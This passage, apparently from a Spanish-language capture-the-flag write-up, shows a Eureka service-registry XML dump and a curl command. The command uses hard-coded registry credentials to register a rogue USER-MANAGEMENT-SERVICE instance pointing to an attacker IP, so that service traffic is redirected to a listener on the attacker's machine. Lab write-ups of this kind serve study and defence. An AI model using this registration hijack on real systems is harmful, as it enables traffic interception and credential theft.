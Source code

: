 ```bash
    <countryId>1</countryId>
    <dataCenterInfo class="com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo">
      <name>MyOwn</name>
    </dataCenterInfo>
    <leaseInfo>
      <renewalIntervalInSecs>30</renewalIntervalInSecs>
      <durationInSecs>90</durationInSecs>
      <registrationTimestamp>1752362354001</registrationTimestamp>
      <lastRenewalTimestamp>1752367557204</lastRenewalTimestamp>
      <evictionTimestamp>0</evictionTimestamp>
      <serviceUpTimestamp>1752362354001</serviceUpTimestamp>
    </leaseInfo>
    <metadata>
      <management.port>8081</management.port>
    </metadata>
    <homePageUrl>http://localhost:8081/</homePageUrl>
    <statusPageUrl>http://localhost:8081/actuator/info</statusPageUrl>
    <healthCheckUrl>http://localhost:8081/actuator/health</healthCheckUrl>
    <vipAddress>USER-MANAGEMENT-SERVICE</vipAddress>
    <secureVipAddress>USER-MANAGEMENT-SERVICE</secureVipAddress>
    <isCoordinatingDiscoveryServer>false</isCoordinatingDiscoveryServer>
    <lastUpdatedTimestamp>1752362354001</lastUpdatedTimestamp>
    <lastDirtyTimestamp>1752362353272</lastDirtyTimestamp>
    <actionType>ADDED</actionType>
  </instance>
```

no haremos uso de todos los datos aqui expuestos sino solo de los necesarios para crear una instancia, aunque es posible hacer uso de todos los datos en la peticion que enviemos

```bash
curl -X POST http://127.0.0.1:8761/eureka/apps/USER-MANAGEMENT-SERVICE \
  -u 'EurekaSrvr:0scarPWDisTheB3st' \
  -H 'Content-Type: application/json' \
  -d '{
    "instance": {
      "instanceId": "USER-MANAGEMENT-SERVICE:8081",
      "app": "USER-MANAGEMENT-SERVICE",
      "ipAddr": "10.10.14.160",
      "port": {"$": 8081, "@enabled": "true"},
      "status": "UP",
      "dataCenterInfo": {
        "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
        "name": "MyOwn"
      }
    }
  }'
```

esto creara una instancia al envia la peticion, haciendo que parte del trafico sea dirigido a nuestra maquina atacante por el puerto `8081` por lo que debemos estar escuchando por este puerto antes de enviar la peticion
